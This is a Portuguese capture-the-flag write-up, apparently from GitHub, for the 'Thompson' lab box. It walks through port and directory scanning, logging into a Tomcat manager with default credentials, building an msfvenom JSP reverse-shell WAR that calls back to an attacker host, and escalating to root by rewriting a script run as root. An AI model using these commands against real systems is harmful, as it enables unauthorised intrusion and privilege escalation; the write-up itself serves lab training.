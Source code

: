 # Thompson

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.123.160
```
![image](https://github.com/lufffe/Writeups/assets/90646635/21523a9d-03de-4048-9460-cd43c647e053)

![image](https://github.com/lufffe/Writeups/assets/90646635/7dd7718f-1f3d-4abc-90d4-b974e9852c55)

* ### Verificando se o nmap encontra mais portas abertas.
```bash
nmap -A 10.10.123.160
```
![image](https://github.com/lufffe/Writeups/assets/90646635/16172107-2e4a-4cfc-af72-55cc95ecb3df)

* ### Scan de Arquivos e Diretorios.
 ```bash 
 gobuster dir -u http://10.10.123.160:8080 -w ~/common.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/80d0344c-3cbf-44af-aef0-c349b6f1edcc)

* ### Dando uma olhada no browser, se você clicar em manager aparece a solicitação de login e senha.
![image](https://github.com/lufffe/Writeups/assets/90646635/43adc7df-8bf1-4e3a-afcd-00c330be6074)

* ### Pesquisa no google, credenciais default do tomcat e então
* ![image](https://github.com/lufffe/Writeups/assets/90646635/62bd345c-eeb7-4ca5-b5e0-e68dbc74bf30)

* ### Criando a reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=9999 -f war -o rshell.war

* ### Subindo a verse 
![image](https://github.com/lufffe/Writeups/assets/90646635/6ba104d9-93a4-4ab9-af21-a95274a74f3a)

![image](https://github.com/lufffe/Writeups/assets/90646635/ca2393f2-ce1a-4431-a074-40ebb0e17185)


* ### Conseguindo a shell.
![image](https://github.com/lufffe/Writeups/assets/90646635/e66f1e4c-0c40-48bd-b717-505eab754720)

* ### Flag user
```bash 
tomcat@ubuntu:/home/jack$ cat user.txt
```
> #################################################

```bash 
tomcat@ubuntu:/home/jack$ ls -la
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cec1011a-abab-4dd4-b891-711091940c5e)

```bash 
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
```

* ### Flag root
tomcat@ubuntu:/home/jack$ cat test.txt
cat test.txt
> ################################################# 
